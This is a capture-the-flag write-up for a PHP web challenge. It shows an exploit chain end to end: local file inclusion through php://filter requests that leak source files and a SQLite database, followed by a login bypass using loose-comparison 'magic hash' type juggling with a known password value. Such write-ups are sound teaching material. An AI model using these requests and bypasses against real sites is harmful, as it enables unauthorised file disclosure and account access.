 ```yaml
---
toc: true
title: MACS Web
description: MACS Web
date: 2023-11-25
author: Duc Anh Nguyen
---
```


## 1. [Pea Haych Pee](/image/macs_web/1700915309736.png)

The web reads the `page` parameter, fetches the file whose filename is the same as `page` value, and includes it in the response. By sending a random page name that does not exist (locally) in their server, it can be deduced that they are using php include function to add the file content to the response.

```http
GET /mainsite/?page=test.php HTTP/1.1
Host: chal2.macs.codes:4023
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Sun, 26 Nov 2023 03:45:52 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34

<br />
<b>Warning</b>:  include(test.php): failed to open stream: No such file or directory in <b>/var/www/html/mainsite/index.php</b> on line <b>14</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/mainsite/index.php
```

Use `include` to exploit the LFI vulnerability. When you use php:// with include or require, you're essentially telling PHP to treat the specified stream as if it were a file, allowing you to read from it or write to it as needed.

Read the code in index.php by sending this request:

```
GET /mainsite/?page=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
Host: chal2.macs.codes:4023
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://chal2.macs.codes:4023/mainsite/index.php?page=contact
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

Source code is leaked:
```php
<?php
	include("header.php");
	$page = $_GET['page'];
	if(isset($page) && strlen("$page") !== 0) {
		while(substr_count($page, '../', 0)) {
 			$page = str_replace('../', '', $page);
		};
		while(substr_count($page, 'flag', 0)) { //you can't just include the flag you cheeky buggers, try harder!!!
			$page = str_replace('flag', '', $page);
		}
		if($page[0] === '/') {
			$page = substr($page, 1);
		}
		include("$page");
	}
	include("footer.php");
?>
```
However, there is a filter to forbid extracting the flag so I check out the header.php file. Below is a snippet.

```php
		    <?php
                    // echo '<li class="nav-item"><a href="secret_gymso_admin/index.php">Admin - Not Complete</a></li>';
    ?>
```

Read `/var/www/html/secret_gymso_admin/index.php` with stream wrappers:

```html
<form class="login100-form validate-form" method="post" action="../mainsite/login_toBeFinished.php">
	<span class="login100-form-title p-b-55">
		Login
    </span>
```

Read `/var/www/html/mainsite/login_toBeFinished.php` with stream wrappers: 

```php
<?php
	session_start();
	$username = $_POST["username"];
	$password = $_POST["password"];
	$myPDO = new PDO('sqlite:database_toBeFinished.db');
	$stmt = $myPDO->prepare("SELECT * FROM users WHERE username = ?");
	$stmt->execute(array("$username"));
	if($row = $stmt->fetch()) {
		$databasePassword = $row[1];
		if($databasePassword == md5("$password")) {
			$_SESSION['password'] = $password;
			//print_r(file_get_contents('../v/flag.php4'));
			header('Location: /secret_gymso_admin/flag.php');
		}
		else {
			header('Location: /secret_gymso_admin/index.php');
		}
	}
	else {
		header('Location: /secret_gymso_admin/index.php');
	}
?>

```

There is a database in the folder, try reading `/var/www/html/mainsite/database_toBeFinished.db` with stream wrappers, and the username and password (in MD5) are leaked:

```sqlite
joseph 0e087333482131113740957780965295
```

The code is vulnerable in its comparison between $databasePassword and md5("$password"). It uses loose type comparison and therefore it's vulnerable to [PHP Type Juggling](https://medium.com/@codingkarma/not-so-obvious-php-vulnerabilities-388a3b7bf2dc). The output of the `md5` function is a string and `$databasePassword`` value is going to be "0e087333482131113740957780965295" for user Joseph:

```php
md5(string $string, bool $binary = false): string
```

The loose type comparison is pretty funky and you can read more about it here: [PHP Loose Type](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf). Basically:

`0e08733 == 0e12345 is True`
So we have to find a password when hashed gives out a value that starts with `0e`. Consult [Magic Hash](https://github.com/spaze/hashes/blob/master/md5.md) and we know we can use a value of 240610708 for the password. Login with username joseph/ password 240610708 and we can obtain the flag. 
